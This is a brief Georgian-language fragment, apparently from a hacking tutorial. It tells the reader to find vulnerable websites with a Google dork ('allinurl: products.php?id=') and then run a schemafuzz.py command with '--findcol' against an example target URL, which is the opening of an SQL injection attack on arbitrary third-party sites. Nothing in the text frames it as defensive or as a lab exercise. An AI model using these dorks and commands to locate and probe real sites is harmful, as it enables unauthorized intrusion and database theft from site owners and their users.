 ჯერ უნდა მოძებნო სუსტი საიტი, მაგალითად dork-ებით, google.com-ით.

```
allinurl: products.php?id=
```

მაგალითად სუსტი ვებ-გვერდია www.site.com/page.php?id=2

```
schemafuzz.py-u “http://www.site.com/page.php?id=2 ” –findcol
```
